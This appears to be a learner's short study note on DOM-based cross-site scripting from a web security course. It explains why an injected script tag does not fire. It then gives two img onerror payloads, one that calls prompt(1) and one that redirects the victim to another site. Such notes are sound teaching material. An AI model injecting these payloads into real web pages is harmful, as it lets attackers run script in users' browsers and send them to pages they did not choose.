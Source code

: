 - this is DOM-based XSS : cuz in network tab there is no request going and coming back to server : vulnerability within client .
	`<script>prompt(1)</script>` not work cuz even if added to page , but not called , so we need trigger.


>[!note]
>if it was a part of the page when it loaded , it would have been triggered


```JS
	<img src=x onerror="prompt(1)">
```

- Now we want to forward the user to another page:

```JS
	<img src=x onerror="window.location.href='https://tcm-sec.com'">
```

